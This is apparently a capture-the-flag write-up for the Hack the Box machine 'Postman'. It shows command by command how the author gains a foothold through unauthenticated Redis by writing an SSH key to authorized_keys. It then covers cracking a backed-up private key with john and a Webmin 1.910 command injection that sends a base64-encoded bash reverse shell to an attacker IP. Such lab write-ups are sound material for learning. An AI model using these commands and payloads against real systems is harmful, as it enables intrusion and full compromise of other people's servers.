 ```yaml
---
title: Postman
tags: linux
description: Write-up for Hack the Box - Postman
---
```

![image](assets/79376241-e1fb0d00-7f27-11ea-96fd-634019e1fb3b.png)

## Overview

Postman is an Ubuntu box running webmin and redis. Redis (Remote Dictionary Server) is an in-memory data structure store, used as a database, cache and message broker and is designed to be accessed via trusted networks and not publicly exposed. I was able to connect to this service without authenticating, write an rsa public key to the authorized_keys file, and log in as the redis user. I found a backup of Matt's encrypted private key which I was able to crack and get Matt's password. Using Matt's password I was able to log onto Webmin and trick package_updates into executing a reverse shell as the user root.

## Enumeration

**Software**

* Ubuntu 18.04.3 LTS
* OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
* Apache 2.4.29
* Redis 4.0.9
* Webmin 1.910

**Port Scan**

```
nmap -v -Pn -sT -A -p- 10.10.10.160 -oN /mnt/data/boxes/postman/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http
* 6379/tcp - redis
* 10000/tcp - http

**Gobuster**

```
gobuster dir -u 10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 40
```

* /index.html
* /images
* /upload
* /css
* /js
* /fonts

## Steps (user)

I started by browsing to http://10.10.10.160 which brought up a page with the text "Welcome to The Cyber Geek's Personal Website!" It was a simple webpage and I was not able to find anything on the site or in the source.

![image](assets/83975278-186a5e00-a8c1-11ea-98f7-ac0d23fdb2e6.png)

Next I browsed to http://10.10.10.160:10000 which showed an error message about accessing the site via https. It also showed the hostname so i added it to /etc/hosts.

![image](assets/83975806-dbec3180-a8c3-11ea-8516-0242e2459c5e.png)

I updated the url to https and tried again, I was presented with webmin login page. I didn't have a username and password at this point moved on.

![image](assets/83975838-02aa6800-a8c4-11ea-8b70-99741361d00c.png)

Port 6379 was identified by nmap as redis. I was able to connect using the redis-cli tool without authenticating.

```
redis-cli -h 10.10.10.160
```

![image](assets/83975876-338a9d00-a8c4-11ea-8231-1d677eccf881.png)

I did an internet search for redis exploits and came across a [blog](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419) that explains that it's possible to write a public rsa key to the root account providing the ability to log in via ssh.

First I needed to create an rsa key pair 

```
ssh-keygen -t rsa
```

![image](assets/83976310-4c488200-a8c7-11ea-806d-db18659da75b.png)

Then I copied the contents of id_rsa.pub, padded with newlines, to rsa.txt. 

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > rsa.txt
```

I piped the contents of rsa.txt to the redis-cli tool, set the keyname to rsa, with rsa being set to the contents of rsa.txt
```
cat rsa.txt | redis-cli -h 10.10.10.160 -x set rsa
```

Connecting to the host again via redis-cli and typing "set rsa" confirms that the last command was successful.

![image](assets/83976698-95013a80-a8c9-11ea-9696-188a3096325d.png)

Changing directory to /root fails with a permission denied error. After looking at the output of the 'config get dir' command it showed that I was in /var/lib/redis'. I then tried 'config set dir /var/lib/redis/.ssh' and received an 'OK' response meaning that the directory change succeeded.

```
config set dir /var/lib/redis/.ssh
```

![image](assets/83979800-ee279900-a8de-11ea-9719-7d90c6608685.png)

I could now proceed with writing rsa to the authorized_keys file.

```
config set dbfilename "authorized_keys"
save
```

![image](assets/83979824-1e6f3780-a8df-11ea-9806-59bffc510102.png)

I was now able to log in via ssh with the user redis, supplying the private key.

```
ssh -i id_rsa redis@10.10.10.160
```

> Note: This user did not have permission to read the user flag

After enumerating the filesystem I came across a file in /opt called id_rsa.bak which turned out to be an encrypted rsa key.

```
cat /opt/id_rsa.bak
```

![image](assets/83976886-f544ac00-a8ca-11ea-9a86-eda1b73d5e8a.png)

I copied /opt/id_rsa to my local system so I could try and crack the password.

```
scp -i id_rsa redis@10.10.10.160:/opt/id_rsa.bak .
```

I converted id_rsa.bak to john format and saved the file as id_rsa.john

```
/usr/share/john/ssh2john.py id_rsa.bak > id_rsa.john
```

I then fed that into john using the rockyou wordlist and specifying the id_rsa.john file.

```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
```

John successfully cracked the password - 'computer2008'

![image](assets/83976972-8ae03b80-a8cb-11ea-9fa8-ec3f38607761.png)

I was able to use the switch user command to become Matt (su Matt) using the 'computer2008' password when prompted.

## Steps (root/system)

Not finding and obvious privilege escalation paths after logging in as Matt, I tried his password to log into webmin and was successful. 

The page showed the version of Webmin that was running 1.910.

![image](assets/83977141-312c4100-a8cc-11ea-8a53-761be7f4d295.png)

I did a searchsploit search for webmin 1.910 and found 1 result.

![image](assets/83977167-68025700-a8cc-11ea-840d-0e81c1769fe7.png)

Reviewing exploit, it looks like uses post request to update with a reverse shell 

![image](assets/83977440-86695200-a8ce-11ea-8d7e-902eaea3be3f.png)

```
'data' => "u=acl/apt&u= | <payload>&ok_top=Update Selected Packages"
```

The exploit is using a post request to run commands, I started simple by trying the id command (bash -c id).

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/?xnavigation=1
Connection: close
Cookie: redirect=1; testing=1; sid=ab017430a59fdc2c15a3548e6843bb27
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

u=acl%2Fapt&u=+|+bash+-c+id%26ok_top=Update+Selected+Packages
```

![image](assets/84604011-1bd18c80-ae61-11ea-84ae-f924d1b285bb.png)


With the basic test working, I moved on to adding a command to create a reverse shell. I tried commands and wasn't having any luck. After reviwaing the metasploit exploit again, I noticed it base64 encodes the payload first, then decodes and executes it on the target box. 

I base64 decoded the command and then combined this with the command found in the exploit. This base64 encoded command is decoded then executed with bash -i

```
echo 'bash -i >& /dev/tcp/10.10.14.12/4200 0>&1' | base64 
bash -c "echo 'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80MjAwIDA%2bJjEK' | base64 -d | bash -i"
```

![image](assets/83980090-ec5ed500-a8e0-11ea-8c5c-c871d579d231.png)


I updated the post request in burp with the new command (url encoded)

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/?xnavigation=1
Connection: close
Cookie: redirect=1; testing=1; sid=ab017430a59fdc2c15a3548e6843bb27
Content-Type: application/x-www-form-urlencoded
Content-Length: 152

u=acl%2Fapt&u=+|+bash+-c+"echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80MjAwIDA%2bJjEK'+|+base64+-d+|+bash+-i"&ok_top=Update+Selected+Packages
```

After sending the command I received shell as root.

![image](assets/83979040-83c02a00-a8d9-11ea-921f-646357268b48.png)

